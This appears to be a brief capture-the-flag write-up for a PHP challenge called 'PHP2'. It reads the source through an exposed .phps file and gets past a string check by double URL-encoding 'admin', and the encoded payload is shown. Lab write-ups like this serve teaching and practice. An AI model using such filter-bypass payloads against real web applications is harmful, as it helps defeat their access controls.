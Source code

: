 # PHP2

![Screenshot from 2021-07-24 22-54-07](https://user-images.githubusercontent.com/87865134/126874011-7d9de08f-307f-433c-8945-4e032dbcdb33.png)

- Hint: phps
- Request file: `index.phps`

![Screenshot from 2021-07-24 22-55-37](https://user-images.githubusercontent.com/87865134/126874056-702a74ff-e596-4d4a-8e76-37f1a02eb796.png)

- Double URL-encode: `urlencode(urlencode('admin'))`
  - Payload: `?id=%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65`

![Screenshot from 2021-07-24 22-57-56](https://user-images.githubusercontent.com/87865134/126874128-0a19d3b5-3664-481a-aab4-f92ea5a19669.png)
